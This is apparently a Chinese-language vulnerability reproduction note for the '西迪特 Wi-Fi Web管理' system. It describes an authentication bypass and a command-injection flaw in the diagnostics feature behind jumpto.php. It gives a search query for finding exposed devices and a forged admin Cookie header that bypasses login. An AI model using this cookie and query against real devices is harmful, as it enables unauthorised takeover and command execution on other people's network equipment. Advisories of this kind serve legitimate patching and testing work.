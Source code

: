 # 西迪特 Wi-Fi Web管理 jumpto.php 后台命令执行漏洞

## 漏洞描述

西迪特  Wi-Fi Web管理系统后台过滤不足导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>西迪特  Wi-Fi Web管理</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="Wi-Fi Web管理"</a-checkbox></br>

## 漏洞复现o

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629371298672-1ceeafe8-ba9c-42c5-b873-3dfabdd0305a-20220314124737632.png)

通过越权漏洞获取权限，添加Cookie

```bash
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```

进入后台后，诊断功能点存在命令拼接执行漏洞

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629371484536-e600bfcf-053f-420b-b31c-8d3dc6c9843e.png)